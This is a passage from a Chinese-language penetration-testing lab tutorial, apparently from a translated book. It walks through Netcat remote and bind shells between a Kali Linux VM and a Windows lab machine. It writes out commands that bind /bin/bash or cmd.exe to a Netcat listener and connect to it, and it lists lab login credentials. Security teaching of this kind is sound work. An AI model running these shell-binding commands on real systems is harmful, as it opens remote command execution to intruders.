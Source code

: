 ![](img/file327.png)

如上图所示，消息在 Bob-PC 上输入并在 Kali Linux 上的 Netcat 监听器中接收到。

1.  要终止会话，请使用键盘上的 `CTRL + Z` 键组合。

在本练习中，你已经学习了如何在两台主机之间建立远程 shell，并建立通信通道。虽然这是一项基础技术，但它为你提供了一些关于远程 shell 如何在网络中主机之间操作的实际见解。接下来，你将学习如何使用 Netcat 设置绑定 shell。

### 设置绑定 shell

在本练习中，你将学习如何将 Linux 原生 shell，即 **Bourne Again SHell**（**BASH**），绑定到监听器中。这项技术使得远程主机能够建立网络连接并在 Netcat 服务器上执行远程命令。要开始设置绑定 shell，请使用以下说明：

1.  启动 **Kali Linux** 虚拟机，打开 **终端**，并使用以下命令创建一个 Netcat 监听器，将本地 BASH shell 绑定到监听器：

```
kali@kali:~$ nc -nlvp 1234 -e /bin/bash
```

> 如果在 Microsoft Windows 系统上设置监听器，`nc -nlvp 1234 -e cmd.exe` 命令将使你能够使用 Netcat 将 Windows 命令提示符绑定到监听器。

1.  接下来，启动 **Bob-PC** 虚拟机并使用本地管理员帐户（`Bob-PC\bob` | `P@ssword2`）登录。然后，打开 **命令提示符** 并使用以下命令建立与 Kali Linux（监听器）的 Netcat 会话：

```
C:\Users\bob> nc -nv 192.168.42.27 1234 
```

1.  一旦从 Bob-PC 到 Kali Linux 建立会话，你就可以在 Windows 命令提示符中输入基于 Linux 的命令，这些命令会在 Kali Linux 上远程执行，如下所示：

![](img/file328.png)
